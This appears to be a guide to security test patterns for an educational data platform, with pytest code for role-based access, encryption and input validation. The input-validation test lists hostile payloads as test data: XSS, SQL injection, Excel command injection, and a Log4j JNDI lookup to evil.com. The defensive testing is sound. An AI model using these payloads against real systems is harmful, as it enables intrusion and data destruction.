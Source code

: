 ## 🛡️ **Security Testing Patterns**

### **Pattern 4: Authentication & Authorization Testing**

```python
class TestEducationalDataSecurity:
    """Test security specific to educational data systems"""
    
    def test_role_based_student_data_access(self, client, auth_headers):
        """Test teachers can only access their students"""
        # Teacher A should access their students
        teacher_a_headers = create_auth_headers(role="teacher", institution_id=1, class_id="math_101")
        response = client.get("/api/students/class/math_101", headers=teacher_a_headers)
        assert response.status_code == 200
        
        # Teacher A should NOT access other classes
        response = client.get("/api/students/class/science_201", headers=teacher_a_headers)
        assert response.status_code == 403
    
    def test_data_encryption_in_transit_and_rest(self):
        """Test educational data is encrypted"""
        student_data = {
            'name': 'Jane Student',
            'grades': [85, 92, 78],
            'notes': 'Struggles with math concepts'
        }
        
        # Data should be encrypted when stored
        encrypted_data = encrypt_student_data(student_data)
        assert 'Jane Student' not in str(encrypted_data)
        assert '85' not in str(encrypted_data)
        
        # Data should decrypt correctly
        decrypted = decrypt_student_data(encrypted_data)
        assert decrypted == student_data
```

### **Pattern 5: Input Validation & Sanitization Testing**

```python
class TestInputSecurity:
    """Test input validation for educational data"""
    
    @pytest.mark.parametrize("malicious_input,expected_behavior", [
        ("<script>alert('xss')</script>", "rejected"),
        ("'; DROP TABLE students; --", "sanitized"),
        ("=cmd|'/c calc'!A0", "rejected"),  # Excel injection
        ("${jndi:ldap://evil.com}", "rejected")  # Log4j style
    ])
    def test_malicious_input_handling(self, malicious_input, expected_behavior):
        """Test system handles malicious input in gradebook uploads"""
        csv_content = f"Name,Grade\n{malicious_input},85"
        
        response = upload_gradebook_csv(csv_content)
        
        if expected_behavior == "rejected":
            assert response.status_code == 400
            assert "invalid" in response.json()["detail"].lower()
        elif expected_behavior == "sanitized":
            assert response.status_code == 200
            # Verify malicious content was sanitized
            students = response.json()["students"]
```